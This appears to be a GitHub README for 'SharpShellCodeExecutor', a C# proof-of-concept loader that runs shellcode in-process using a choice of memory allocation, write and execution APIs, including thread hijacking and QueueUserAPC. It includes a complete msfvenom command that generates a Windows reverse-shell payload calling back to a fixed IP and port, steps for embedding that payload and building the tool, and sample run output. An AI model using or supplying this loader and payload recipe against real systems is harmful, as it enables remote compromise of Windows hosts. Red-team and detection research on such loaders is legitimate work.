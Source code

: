 # SharpShellCodeExecutor
A POC that shows different methods of executing shellcode within the same process.

It allows specifying different options for the three steps needed to execute shellcode (in most cases).
1. Allocate memory with RWX permissions. This can be done using the Win32 API's VirtualAlloc, VirtualAllocEx, VirtualAllocExNuma , WriteProcessMemory or the native API's NtCreateSection/NtMapSectionView.
2. Write shellcode to newly allocated memory. This can be done using the API's RtlMovememory, WriteProcessMemory or via Marshal.Copy.
3. Execute. This can be done via Classic (CreateThread), Delegate (using Delegate + Function Pointers), LocalThread Highjacking (creating a new thread and pointing it's RIP to the place where the RWX shellcode is stored or using the APC User Queue + NtTestAlert.

## How to compile
First generate shellcode using msfvenom (or any other method) as a C# byte array with the variable name being shellCode.
Example:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.105 LPORT=80 -f csharp -v shellCode

And replace the variable at Program.cs (line 10) and add the static keyword to the beginning, e.g.:

 static byte[] shellCode = new byte[460] {
            0xfc,... 
            };

Then use Visual Studio to build the project.

## How to run

Run the executeable and optionally specify the following arguments to specify the memory allocation, write, and execution method.
```
ShellCodeExecutor.exe -h
ShellCodeExecutor.exe: Executes shellcode stored in shellCode variable within the same process, allows specifying the memory allocation, shellcode writing method and shellcode execution method
Arguments
         -a <Allocation_Method>: Specifies which allocation method to use. Available choices:  VirtualAlloc (Default), VirtualAllocEx, VirtualAllocExNuma, NtCreateSection
         -h : Show help menu.
         -s <ShellCode_Execution_Method>: Specifies which shellcode execution method to use. Available choices:  Classic (Default), Delegate, LocalThreadHighjack, QueueUserAPC
         -w <Write_Method>: Specifies which write method to use when writing shellcode to memory. Available choices:  WriteProcessMemory (Default), MarshalCopy, RtlMoveMemory
```
## Example run
```
ShellCodeExecutor.exe -a VirtualAllocEx -s QueueUserAPC -w RtlMoveMemory
[+] Using selected Allocation VirtualAllocEx, Write Method RtlMoveMemory, Shellcode Execution QueueUserAPC
[+] Allocating Memory
[+] Writing Shellcode to Memory
[+] Executing Memory
```
